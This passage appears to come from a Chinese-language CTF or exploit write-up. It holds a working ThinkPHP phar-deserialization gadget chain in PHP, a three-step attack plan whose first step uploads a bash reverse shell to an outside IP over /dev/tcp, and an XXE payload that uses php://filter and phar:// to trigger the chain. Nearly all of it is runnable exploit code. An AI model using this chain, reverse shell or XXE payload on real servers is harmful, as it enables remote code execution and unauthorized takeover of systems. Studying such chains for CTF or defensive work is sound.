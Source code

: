 ```php
        public function get($system)
        {
            $this->data = array("Test" => "$system");
        }
    }
}
namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct($system)
        {
            $this->get($system);
        }
    }
}

namespace {
    $Conver = new think\model\Pivot("bash /tmp/uploads/5d1ef4eb1568455dcd57edb7081e8181/20191111/750e21eaf4887bb1d0476ff2c581d669.xml");
    $payload = new think\process\pipes\Windows($Conver);
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->setMetadata($payload); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
}
```

攻击流程如下：

```php
1.上传 bash.xml -> bash -i >& /dev/tcp/47.98.224.70/23333 0>&1
2. 获取 bash.xml 上传路径，利用 phar exp 生成 phar.phar，更改后缀为 .xml 后上传。
3. XXE 触发 phar 反序列化 反弹 shell 
```

XXE Payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [ <!ENTITY b SYSTEM "php://filter/resource=phar:///tmp/uploads/9ee7098eadd66450d552896a0685ea09/20191110/8d696ecb29fbc5ea014d405dad3c4d3e.xml"> ]>
<ticket><username>&b;</username><code>1</code></ticket>
```
